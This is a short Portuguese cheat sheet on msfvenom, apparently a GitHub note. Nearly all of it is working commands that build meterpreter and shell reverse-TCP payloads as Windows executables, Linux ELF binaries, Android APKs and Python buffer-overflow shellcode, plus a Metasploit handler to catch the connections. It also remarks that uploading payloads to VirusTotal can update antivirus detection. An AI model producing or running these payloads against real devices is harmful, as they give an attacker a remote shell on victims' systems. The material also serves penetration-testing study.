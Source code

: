 # MSFVENOM

O **msfvenom** é utilizado para criação de exploit.  
Teste os seus payloads através do site https://www.virustotal.com.  
*Cuidado pois ao enviar para o vírus total, a heurística pode ser atualizada nos antivírus.*

Verificar todos os payloads:

```bash
msfvenom --list payloads
```

Gerando payload para Windows:

```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.0.100 LPORT=443 -f exe > virus.exe
```

Para receber a conexão do alvo será necessário que o msf esteja em execução:

```bash
msfconsole
```

```msf
msf > use exploit/multi/handler
msf exploit(handler) > set payload windows/meterpreter/reverse_tcp
msf exploit(handler) > set LPORT 443
msf exploit(handler) > set LHOST 192.168.0.100
msf exploit(handler) > exploit*
```

Criando um exploit para Windows para BoF:

```bash
msfvenom -p windows/shell_reverse_tcp LHOST=192.168.0.100 LPORT=443 -b "\x00\x0a\x0d\x20" EXITFUNC=thread -f python
```

**windows/shell_reverser_tcp** ==> Tipo do exploit.  
**LHOST** ==> IP de conexão reversa.  
**LPORT** ==> Porta de conexão reversa.  
**-b "\x00\x0a\x0d\x20"** ==> Bad caracteres ou caracteres inválidos.  
**-f python** ==> Linguagem que vai ser gerado o exploit.  
**EXITFUNC=thread** ==> Evita que a aplicação morra depois do exploit ser fechado.

Gerando payload binário para sistema Linux:

```bash
msfvenom -p linux/x86/meterpreter/reverse_tcp lport=433 lhost=192.168.0.111 -f elf > malicioso
```

*Utilizado quando você já tem uma shell no device e necessita usar o meterpreter para auxiliar na pós exploração.*

Gerando payload APK para Android:

```bash
msfvenom -p android/meterpreter/reverse_tcp lport=433 lhost=192.168.0.111 R > malicioso.apk
```

**R** ==> Salva em modo RAW.

*Utilizado quando você já tem uma shell no device e necessita usar o meterpreter para auxiliar na pós exploração.*